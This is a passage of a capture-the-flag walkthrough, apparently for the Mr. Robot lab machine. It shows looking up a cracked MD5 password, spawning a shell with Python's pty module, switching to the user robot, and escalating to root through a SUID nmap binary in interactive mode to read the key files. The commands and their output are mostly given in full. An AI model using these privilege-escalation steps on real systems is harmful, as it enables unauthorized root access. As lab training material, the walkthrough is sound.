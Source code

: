     robot:c3fcd3d76192e4007dfb496cca67e13b

Look up the [md5](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b). 

And `su - robot`. Oh! `su: must be run from a terminal`.

    $ which python
    /usr/bin/python
    $ python -c 'import pty; pty.spawn("/bin/sh")'

Now `su`:

    $ su - robot
    su - robot
    Password: abcdefghijklmnopqrstuvwxyz
    $ whoami
    whoami
    robot
    $ cat key-2-of-3.txt
    cat key-2-of-3.txt

## Key 3

    $ find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -print 2>/dev/null
    /bin/ping
    /bin/umount
    /bin/mount
    /bin/ping6
    /bin/su
    /usr/bin/passwd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/local/bin/nmap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
    /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
    /usr/lib/pt_chown
    $ nmap --interactive
    nmap --interactive
    
    Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !ls /root
    !ls /root
    firstboot_done	key-3-of-3.txt
    waiting to reap child : No child processes
    nmap> !cat /root/key-3-of-3.txt
    !cat /root/key-3-of-3.txt

